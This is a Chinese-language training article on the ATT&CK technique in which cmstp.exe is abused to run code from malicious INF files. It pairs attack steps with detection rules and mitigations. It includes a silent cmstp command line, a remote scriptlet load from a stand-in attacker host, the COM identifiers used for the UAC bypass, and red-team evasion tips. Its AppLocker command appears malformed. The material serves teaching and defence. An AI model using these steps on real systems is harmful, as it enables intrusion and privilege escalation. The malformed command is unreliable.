

# 连接管理器配置文件安装程序 (T1218.003)

## 一句话通俗理解

> **攻击者把恶意指令塞进 INF 配置文件，让 cmstp.exe 这个微软签名的"VPN 配置安装器"替它执行——好比把密令藏在公文里，让信使替你传达。**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 连接管理器配置文件安装程序（T1218.003），系统二进制代理执行（T1218）的子技术 |
| 为什么危险？ | cmstp.exe 是微软签名二进制，可加载恶意 INF/SCT/DLL，还能绕过 AppLocker 与 UAC（T1548.002） |
| 谁需要关心？ | 系统管理员、安全运维团队、SOC分析师、应用控制策略管理员 |
| 你的第一步防御 | 应用控制阻止 cmstp.exe 执行（除非用于 VPN 连接安装） |
| 如果只做一件事 | 在 Sysmon 中监控 cmstp.exe 进程创建及其命令行参数与子进程链 |

## 难度等级

⭐⭐ 中级 - 需要一定的技术基础和经验

## 前置知识检查

**读这个文件需要什么？**

- [ ] 操作系统权限模型基础
- [ ] 系统二进制代理执行（T1218）的原理
- [ ] Windows INF 文件格式与安装脚本机制
- [ ] COM 接口与 UAC 自动提升机制

## 技术描述

**连接管理器配置文件安装程序**（T1218.003）是 **系统二进制代理执行**（T1218）的一个具体变体，属于 **隐蔽** 阶段的攻击技术。

攻击者可能滥用 Microsoft Connection Manager Profile Installer（CMSTP.exe）来代理执行恶意代码。CMSTP.exe 是一个命令行程序，用于安装 Connection Manager 服务配置文件，接受 INF 文件作为输入参数。CMSTP.exe 由微软数字签名。

攻击者可提供包含恶意命令的 INF 文件，让 cmstp.exe 加载执行。类似 Regsvr32 / Squiblydoo，CMSTP 还可加载执行远程 DLL 和 COM scriptlets（SCT）文件。由于 CMSTP.exe 是微软签名的合法二进制，可绕过 AppLocker 和应用控制策略。

CMSTP.exe 还可用于绕过用户账户控制（UAC，T1548.002）——通过自动提升的 COM 接口（如 CMSTPLUA / CMLUAUTIL）执行任意命令，在不弹出 UAC 提示的情况下以高完整性级别运行代码。

### 具体怎么理解？

把 cmstp.exe 想象成一个**信使兼翻译官**：

1. **信使身份**：cmstp.exe 是微软签名二进制，应用控制策略默认信任，相当于"持官方通行证"
2. **翻译能力**：cmstp.exe 能解析 INF 文件中的指令，并按指令执行注册表修改、文件复制、命令执行等操作
3. **远程加载**：类似 Regsvr32 的 Squiblydoo，cmstp.exe 可从远程 URL 加载 SCT 脚本组件或 DLL
4. **UAC 绕过加成**：通过 COM 接口 CMSTPLUA（CLSID 3E5FC7F9-9A51-4367-9063-A120244FBEC7）或 CMLUAUTIL（CLSID 3E000D72-A264-40AB-8D0A-D8B31FE962DE）触发自动提升，无需 UAC 提示即可获得管理员权限

### 为什么有效？

- **签名信任**：cmstp.exe 是 `C:\Windows\System32` 下的微软签名二进制，AppLocker 默认规则允许执行
- **INF 灵活性**：INF 文件支持 `[DefaultInstall_SingleUser]`、`[RunSetupHooks]`、`[AddReg]` 等节，可指定任意命令执行
- **远程加载能力**：可加载远程 SCT/DLL，无需在本地落地载荷
- **UAC 绕过**：通过自动提升 COM 接口，无需用户交互即可以高完整性级别执行
- **扩展名盲区**：.inf 是常见配置文件扩展名，邮件网关与文件下载策略常忽略

## 真型场景

攻击者在 **隐蔽** 阶段使用连接管理器配置文件安装程序技术，以下是典型的攻击步骤：



**步骤详解：**

1. **投递**：攻击者通过钓鱼邮件、多阶段恶意软件投递武器化 INF 文件，常伪装成"VPN 配置""网络设置"。
2. **触发**：用户双击或攻击者命令行执行 `cmstp.exe /s /ns malicious.inf`（`/s` 静默安装，`/ns` 不创建快捷方式）。
3. **解析执行**：cmstp.exe 解析 INF 文件的 `[DefaultInstall_SingleUser]` 或 `[RunSetupHooks]` 节，执行其中指定的命令。
4. **远程加载（可选）**：通过 `UnRegisterOCXs`/`RegisterOCXs` 节加载远程 SCT 脚本组件或 DLL。
5. **UAC 绕过（可选）**：通过 COM 接口 CMSTPLUA 或 CMLUAUTIL 触发自动提升，以管理员权限执行后续命令。
6. **载荷落地**：执行任意代码，下载二级载荷，建立 C2 通道并完成持久化。

## 攻击流程

```
投递 INF → cmstp.exe 加载 → 解析 INF 节执行命令 → 可选远程 SCT/DLL → 可选 UAC 绕过 → C2 持久化
```


**步骤详解：**

1. **投递**
   - 通俗描述：攻击者把"毒药"伪装成网络配置文件寄给受害者
   - 技术细节：邮件附件 .inf 文件，文件名伪装成业务相关（如"VPN配置.inf"）；或通过已植入的恶意软件二阶段下载
   - 常用工具：自研 INF 构造工具、文本编辑器

2. **触发执行**
   - 通俗描述：受害者双击"配置文件"或攻击者远程命令执行
   - 技术细节：`cmstp.exe /s /ns C:\Users\Public\malicious.inf`；`/s` 静默模式，`/ns` 不创建快捷方式，`/su` 单用户模式
   - 常用工具：cmstp.exe（系统自带）

3. **INF 解析与执行**
   - 通俗描述：cmstp.exe 按配置文件中的指令执行任意命令
   - 技术细节：INF 文件中 `[DefaultInstall_SingleUser]` 节的 `RunSetupHooks` 键可指定可执行文件路径；`[AddReg]` 节可修改注册表实现持久化；`[RegisterOCXs]`/`[UnRegisterOCXs]` 节可加载 DLL/SCT
   - 常用工具：恶意 INF 文本、自研 DLL/SCT 载荷

4. **远程加载与 UAC 绕过**
   - 通俗描述：从远程服务器拉取载荷，或通过特殊接口免提示获得管理员权限
   - 技术细节：`[RegisterOCXs]` 节指定远程 SCT URL（`script:http://attacker.com/evil.sct`）；COM 接口 CMSTPLUA CLSID `{3E5FC7F9-9A51-4367-9063-A120244FBEC7}`、CMLUAUTIL CLSID `{3E000D72-A264-40AB-8D0A-D8B31FE962DE}` 自动提升
   - 常用工具：远程 SCT 服务器、PowerShell（调用 COM 接口）

## 真实案例

### 案例1：CHIMNEYSWEEP 用 CMSTP.exe 安装恶意 Connection Manager Profile

- **时间**: 2024年（公开报告）
- **目标**: 中东政府与能源组织
- **攻击组织**: CHIMNEYSWEEP（S1149）
- **手法**: CHIMNEYSWEEP 使用 cmstp.exe 安装恶意 Connection Manager Profile，通过武器化 INF 文件在受害者主机上执行任意代码并建立持久化
- **影响**: 长期情报收集与横向移动
- **参考链接**: [MITRE ATT&CK - CHIMNEYSWEEP](https://attack.mitre.org/software/S1149/)

### 案例2：Cobalt Group 用 CMSTP.exe 绕过 AppLocker

- **时间**: 2017-2018年
- **目标**: 金融机构（银行）
- **攻击组织**: Cobalt Group（G0080）
- **手法**: Cobalt Group 使用 `cmstp.exe /s /ns C:\Users\ADMINI~W\AppData\Local\Temp\XKNqbpzl.txt` 绕过 AppLocker 应用控制策略——将 INF 文件改名为 .txt 绕过文件类型检测
- **影响**: 银行内部网络渗透，ATM 攻击
- **参考链接**: [MITRE ATT&CK - Cobalt Group](https://attack.mitre.org/groups/G0080/)

### 案例3：LockBit 3.0 用 CMSTP.exe 尝试 UAC 绕过

- **时间**: 2022-2023年
- **目标**: 全球企业（勒索软件）
- **攻击组织**: LockBit 3.0（S1202）
- **手法**: LockBit 3.0 在无管理员权限时尝试通过 CMSTP.exe 进行 UAC 绕过，利用自动提升的 COM 接口获得高完整性权限以部署勒索载荷
- **影响**: 大规模勒索软件攻击，造成数亿美元损失
- **参考链接**: [MITRE ATT&CK - LockBit 3.0](https://attack.mitre.org/software/S1202/)

### 案例4：MuddyWater 用 CMSTP.exe 执行 POWERSTATS 载荷

- **时间**: 2017-2019年
- **目标**: 中东政府与电信组织
- **攻击组织**: MuddyWater（G0069，伊朗 APT）
- **手法**: MuddyWater 使用 CMSTP.exe 和恶意 INF 文件执行 POWERSTATS 后门载荷，INF 文件中 `[RunSetupHooks]` 节触发后门加载
- **影响**: 中东地区长期间谍活动
- **参考链接**: [MITRE ATT&CK - MuddyWater](https://attack.mitre.org/groups/G0069/)

### 案例5：安全研究中的实践（Nick Tyrer / Oddvar Moe）

- **时间**: 2017-2018年
- **目标**: 安全研究测试环境
- **攻击组织**: 红队/安全研究人员
- **手法**: Nick Tyrer 发现通过 INF 文件的 `UnRegisterOCXs` 节可让 cmstp.exe 加载远程 SCT 脚本组件；Oddvar Moe 详细研究 cmstp.exe 的 UAC 绕过能力
- **影响**: 推动 ATT&CK 收录此技术，推动安全社区关注 LOLBins 滥用
- **参考链接**: [Nick Tyrer - CMSTP SCT 远程执行](https://tyranidslair.blogspot.com/2017/08/cmstp-exe-bypassing-application.html) | [Oddvar Moe - msitpros CMSTP 研究](https://msitpros.com/?p=3952)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **深入理解原理**：掌握 INF 文件格式（`[DefaultInstall]`/`[DefaultInstall_SingleUser]`/`[RunSetupHooks]`/`[RegisterOCXs]`/`[UnRegisterOCXs]`/`[AddReg]` 节）、cmstp.exe 命令行参数（`/s`/`/ns`/`/su`/`/u`）、自动提升 COM 接口（CMSTPLUA CLSID、CMLUAUTIL CLSID）
2. **环境适配**：先侦察目标的应用控制策略——AppLocker 默认规则通常允许 cmstp.exe 执行；检查 .inf 文件类型是否在邮件网关黑名单（可改名 .txt 绕过）；检查 UAC 级别（默认级别下 COM 自动提升可用）
3. **组合使用**：与 UAC 绕过（T1548.002）组合通过 CMSTPLUA 获得高权限；与远程载荷（T1218.010 Regsvr32 Squiblydoo）链式使用，让 cmstp.exe 加载远程 SCT；与持久化（T1547.001 Run 键）组合，INF 的 `[AddReg]` 节写入注册表
4. **隐蔽性考虑**：INF 文件名伪装成业务配置；将 INF 改名为 .txt 绕过文件类型检测（Cobalt Group 技巧）；`/s` 静默模式避免用户界面；执行后删除 INF 文件

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| cmstp.exe | 系统自带连接管理器配置安装器 | Windows | 系统自带 |
| 文本编辑器 | 构造恶意 INF 文件 | 任意 | Notepad/VSCode |
| Atomic Red Team T1218.003 | 检测规则测试用例 | Windows | [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) |
| LOLBAS cmstp.exe | 二进制滥用参考 | Windows | [LOLBAS - cmstp.exe](https://lolbas-project.github.io/lolbas/Binaries/Cmstp/) |
| Nick Tyrer SCT 模板 | 远程 SCT 执行 PoC | Windows | [Tyranid's Lair](https://tyranidslair.blogspot.com/2017/08/cmstp-exe-bypassing-application.html) |
| Nik Seetharaman Sysmon 配置 | 检测规则参考 | Windows | [GitHub](https://github.com/nskyecmns/sysmon-config) |

### 注意事项

- 在授权的测试环境中使用这些技术
- 注意操作安全（OPSEC），避免被检测系统发现：执行后清理 INF 文件与注册表项
- 使用匿名化技术和代理隐藏真实身份
- UAC 绕过仅在目标 UAC 级别为"默认"或更低时有效，"始终通知"级别下无效

## 蓝队视角

### 检测要点

1. **系统日志监控**：Sysmon Event ID 1（进程创建）监控 cmstp.exe 启动，特别是带 INF/SCT 参数的命令行
2. **异常行为检测**：cmstp.exe 子进程异常（powershell/cmd/mshta）；从非标准目录加载 INF；INF 文件扩展名异常（.txt/.dat 伪装）；cmstp.exe 加载远程 URL 内容；COM 接口 CMSTPLUA/CMLUAUTIL 的实例化
3. **工具特征识别**：监控 INF 文件中的 `[RunSetupHooks]`/`[RegisterOCXs]`/`[UnRegisterOCXs]` 节；EDR 监控 cmstp.exe 的 `LoadLibrary`/`ShellExecute` 调用

### 监控建议

- 部署端点检测和响应（EDR）系统，配置 cmstp.exe 进程创建与命令行参数监控规则
- 配置SIEM规则，关联分析来自多个来源的告警（INF 文件落地 + cmstp.exe 加载 + 子进程网络外联）
- 定期进行安全评估和渗透测试，验证 CMSTP 投递链的检测覆盖
- 在邮件网关阻断 .inf 附件（默认应阻断）

## 避坑指南

- **不要只盯 cmstp.exe 本身**：合法用户偶尔会用 cmstp.exe 安装 VPN 配置，需结合 INF 内容与子进程综合判断
- **不要忽视文件扩展名伪装**：Cobalt Group 将 INF 改名为 .txt，需监控 cmstp.exe 命令行参数而非仅 .inf 扩展名
- **不要漏掉 COM 接口路径**：UAC 绕过通过 CMSTPLUA/CMLUAUTIL COM 接口，需监控这两个 CLSID 的实例化
- **不要假设 UAC 级别**：默认 UAC 级别下 COM 自动提升可用，但"始终通知"级别无效，需根据目标环境调整

## 检测建议

### 检测思路

检测 连接管理器配置文件安装程序 的关键是识别 CMSTP.exe 带指向可疑/远程 INF/SCT/DLL 载荷的参数执行。以下是三个层面的检测方法：

### 网络层检测

**方法**：监控 cmstp.exe 进程发起的出站连接，特别是连接到非企业域名或新注册域名；监控远程 SCT URL 的请求。

```bash
# 检测 cmstp.exe 异常网络外联
# Sysmon Event ID 3 (网络连接) 过滤 cmstp.exe 源
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=3} |
  Where-Object {$_.Message -match 'cmstp\.exe'} |
  Select-Object TimeCreated, Message
```

### 主机层检测

**Windows事件ID**：
- Sysmon Event ID 1：进程创建（监控 cmstp.exe 启动及子进程）
- Sysmon Event ID 7：镜像加载（监控 cmstp.exe 加载非系统 DLL）
- Sysmon Event ID 11：文件创建（监控 INF/SCT 文件落地）
- Sysmon Event ID 12/13/14：注册表修改（监控 Connection Manager 配置文件注册）
- 事件ID 4688：进程创建（监控可疑进程）

```bash
# 检测 cmstp.exe 执行及可疑子进程
# Sysmon 配置：
# <RuleGroup name="CMSTP Execution" groupRelation="or">
#   <ProcessCreate onmatch="include">
#     <Image condition="is">C:\Windows\System32\cmstp.exe</Image>
#   </ProcessCreate>
#   <ProcessCreate onmatch="include">
#     <ParentImage condition="is">C:\Windows\System32\cmstp.exe</ParentImage>
#   </ProcessCreate>
#   <FileCreate onmatch="include">
#     <TargetFilename condition="contains any">.inf;.sct</TargetFilename>
#   </FileCreate>
# </RuleGroup>

# 查询 cmstp.exe 子进程
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
  Where-Object {$_.Message -match 'ParentImage.*cmstp\.exe'} |
  Select-Object TimeCreated, @{n='ChildProcess';e={$_.Properties[5].Value}}

# 检测 COM 接口 CMSTPLUA/CMLUAUTIL 实例化
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
  Where-Object {$_.Message -match '3E5FC7F9-9A51-4367-9063-A120244FBEC7|3E000D72-A264-40AB-8D0A-D8B31FE962DE'} |
  Select-Object TimeCreated, Message
```

**用人话说：** cmstp.exe 是连接管理器配置安装器，正常情况下普通用户几乎不会主动运行它——一旦看到 cmstp.exe 启动，特别是带 `/s /ns` 静默参数和指向用户目录或 .txt 文件的命令行，几乎可以确定是攻击；而 CMSTPLUA/CMLUAUTIL COM 接口的实例化几乎都关联 UAC 绕过。

```yaml
title: 检测 cmstp.exe 异常执行与可疑子进程
status: experimental
description: 检测 cmstp.exe 加载 INF/SCT 文件后启动可疑子进程（连接管理器配置文件安装程序 T1218.003）
references:
    - https://attack.mitre.org/techniques/T1218/003/
    - https://attack.mitre.org/detectionstrategies/DET0328/
logsource:
    category: process_creation
    product: windows
detection:
    selection_cmstp:
        Image|endswith: '\cmstp.exe'
    selection_cmstp_child:
        ParentImage|endswith: '\cmstp.exe'
        Image|endswith:
            - '\powershell.exe'
            - '\pwsh.exe'
            - '\cmd.exe'
            - '\mshta.exe'
            - '\wscript.exe'
            - '\cscript.exe'
            - '\regsvr32.exe'
            - '\rundll32.exe'
    selection_cmstp_inf:
        Image|endswith: '\cmstp.exe'
        CommandLine|contains:
            - '.inf'
            - '.txt'
            - '.sct'
            - '/s'
            - '/ns'
    condition: selection_cmstp or selection_cmstp_child or selection_cmstp_inf
fields:
    - CommandLine
    - ParentCommandLine
    - Image
    - User
falsepositives:
    - 合法 VPN 连接安装（罕见，需白名单）
level: high
tags:
    - attack.t1218.003
    - attack.t1218
    - attack.ta0005
    - attack.stealth
    - attack.t1548.002
```

### 应用层检测

**Sigma规则示例**（基于 ATT&CK DET0328 / AN0932）：

```yaml
title: DET0328 - 可疑 CMSTP 执行
id: e92c4a8d-5c4e-4f1a-9c4e-7b2a3f5c8e3d
status: stable
description: |
    检测 CMSTP.exe 带指向可疑/远程 INF/SCT/DLL 载荷的参数执行，可选后续：到不受信 IP 的出站连接、
    通过 COM 接口 (CMSTPLUA, CMLUAUTIL) 的进程注入、注册恶意配置文件的注册表修改、
    执行前创建可疑 INF/DLL/SCT 文件。对应 ATT&CK DET0328 / AN0932。
references:
    - https://attack.mitre.org/detectionstrategies/DET0328/
logsource:
    product: windows
    category: process_creation
detection:
    selection_cmstp_exec:
        Image|endswith: '\cmstp.exe'
    selection_cmstp_nonstd_path:
        Image|endswith: '\cmstp.exe'
        CommandLine|contains:
            - 'C:\Users\'
            - 'C:\Temp\'
            - 'C:\ProgramData\'
            - '\AppData\Local\Temp\'
            - '\Downloads\'
    selection_cmstp_silent:
        Image|endswith: '\cmstp.exe'
        CommandLine|contains:
            - '/s'
            - '/ns'
            - '/su'
    condition: selection_cmstp_exec or selection_cmstp_nonstd_path or selection_cmstp_silent
fields:
    - CommandLine
    - ParentCommandLine
    - Image
    - User
falsepositives:
    - 合法 VPN 连接安装（需白名单特定路径）
level: high
tags:
    - attack.t1218.003
    - attack.t1218
    - attack.ta0005
```

## 缓解措施

### 优先级1：关键措施

**M1042 禁用/移除功能（禁用 cmstp.exe）**：在不需要安装 Connection Manager 配置文件的环境中（绝大多数企业终端），通过 AppLocker / WDAC / SRP 阻止 cmstp.exe 执行。

```bash
# AppLocker 规则示例（默认拒绝 cmstp.exe）
# 通过 GPO 部署：
# Path condition: %WINDIR%\System32\cmstp.exe → Deny
New-AppLockerPolicy -Xml -PolicyType Deny -Path "%WINDIR%\System32\cmstp.exe" -User "Everyone"
```

**M1038 执行预防（应用控制阻止 cmstp.exe）**：通过 WDAC / AppLocker / SRP 限制 cmstp.exe 执行。

### 优先级2：重要措施

**加强监控**：部署EDR和SIEM系统，针对 cmstp.exe 进程创建、命令行参数、子进程链、COM 接口实例化建立关联告警规则（见上文 Sigma 规则）。

**调整 UAC 级别**：将 UAC 级别设为"始终通知"可阻止 CMSTPLUA/CMLUAUTIL 自动提升绕过。

### 优先级3：建议措施

**安全意识培训**：教育员工识别可疑的 .inf 配置文件附件，不要轻易打开来自不受信来源的"VPN 配置""网络设置"。

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验1：理解基本原理（初级）

**目标**：理解 连接管理器配置文件安装程序 的工作原理

**步骤**：
1. 在隔离环境中搭建 Windows 测试虚拟机（关闭 Defender 或加入排除项）
2. 创建一个最小 INF 文件，包含 `[DefaultInstall_SingleUser]` 节和 `RunSetupHooks=calc.exe`
3. 执行 `cmstp.exe /s /ns test.inf`，观察 calc.exe 是否启动
4. 用 Process Explorer 观察 cmstp.exe → calc.exe 进程树

**学习要点**：理解 INF 文件结构、cmstp.exe 命令行参数、RunSetupHooks 执行机制

### 实验2：实际操作（中级）

**目标**：掌握 连接管理器配置文件安装程序 的实际使用方法

**步骤**：
1. 构造恶意 INF 文件，`[RunSetupHooks]` 节指定 PowerShell 下载执行命令
2. 执行 `cmstp.exe /s /ns malicious.inf`
3. 配置 Sysmon 监控，分析 cmstp.exe → powershell.exe 进程链的日志特征
4. 测试远程 SCT 加载：`[UnRegisterOCXs]` 节指定 `script:http://attacker.com/evil.sct`
5. 测试 UAC 绕过：通过 PowerShell 调用 CMSTPLUA COM 接口
6. 将 INF 改名为 .txt，测试绕过文件类型检测（Cobalt Group 技巧）

**学习要点**：掌握 INF 触发链、远程 SCT 加载、UAC 绕过、Sysmon 日志特征、文件扩展名伪装

### 实验3：防御验证（高级）

**目标**：验证检测规则的有效性

**步骤**：
1. 部署本文 Sigma 规则到 SIEM（如 Splunk、Microsoft Sentinel）
2. 配置 AppLocker 阻止 cmstp.exe 执行
3. 执行 Atomic Red Team T1218.003 测试用例
4. 验证检测告警是否触发，AppLocker 是否阻断
5. 测试绕过：尝试通过 COM 接口路径或文件扩展名伪装绕过监控
6. 改进检测规则覆盖绕过路径

**学习要点**：理解攻防对抗的实际效果，掌握检测规则迭代优化

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE公司维护的攻击技术知识库 |
| **连接管理器配置文件安装程序** | T1218.003，利用 cmstp.exe 加载恶意 INF/SCT/DLL 执行任意代码 |
| **cmstp.exe** | Connection Manager Profile Installer，Windows 系统自带的连接配置安装器 |
| **INF 文件** | Setup Information File，Windows 安装脚本格式，可指定命令执行 |
| **SCT** | Scriptlet，COM 脚本组件文件，可被 cmstp.exe 远程加载执行 |
| **CMSTPLUA** | 自动提升的 COM 接口（CLSID 3E5FC7F9-9A51-4367-9063-A120244FBEC7），用于 UAC 绕过 |
| **CMLUAUTIL** | 自动提升的 COM 接口（CLSID 3E000D72-A264-40AB-8D0A-D8B31FE962DE），用于 UAC 绕过 |
| **UAC** | 用户账户控制（User Account Control），Windows 权限提升提示机制 |
| **系统二进制代理执行** | T1218，本子技术所属的父技术类别 |
| **隐蔽** | 攻击链中的一个阶段（TA0005） |
| **C2** | 命令与控制 |
| **EDR** | 端点检测与响应 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1218 - 系统二进制代理执行](../T1218-System-Binary-Proxy-Execution.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - CMSTP (T1218.003)](https://attack.mitre.org/techniques/T1218/003/)
- [MITRE ATT&CK - System Binary Proxy Execution (T1218)](https://attack.mitre.org/techniques/T1218/)
- [MITRE ATT&CK - DET0328 检测策略](https://attack.mitre.org/detectionstrategies/DET0328/)
- [Microsoft - Connection Manager 文档](https://docs.microsoft.com/windows-server/remote/remote-access/ras/connection-manager-administration-kit)

### 📰 安全报告（真实攻击）

- [MITRE ATT&CK - CHIMNEYSWEEP (S1149)](https://attack.mitre.org/software/S1149/)
- [MITRE ATT&CK - Cobalt Group (G0080)](https://attack.mitre.org/groups/G0080/)
- [MITRE ATT&CK - LockBit 3.0 (S1202)](https://attack.mitre.org/software/S1202/)
- [MITRE ATT&CK - MuddyWater (G0069)](https://attack.mitre.org/groups/G0069/)

### 🔧 工具与资源（动手试试）

- [Nick Tyrer - CMSTP SCT 远程执行](https://tyranidslair.blogspot.com/2017/08/cmstp-exe-bypassing-application.html) - SCT 加载 PoC
- [Oddvar Moe - msitpros CMSTP 研究](https://msitpros.com/?p=3952) - UAC 绕过详细分析
- [Nik Seetharaman - Sysmon 检测配置](https://github.com/nskyecmns/sysmon-config) - 检测规则参考
- [Atomic Red Team - T1218.003 测试用例](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1218.003/T1218.003.md) - 检测规则测试框架
- [LOLBAS - cmstp.exe](https://lolbas-project.github.io/lolbas/Binaries/Cmstp/) - LOLBins 参考
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具
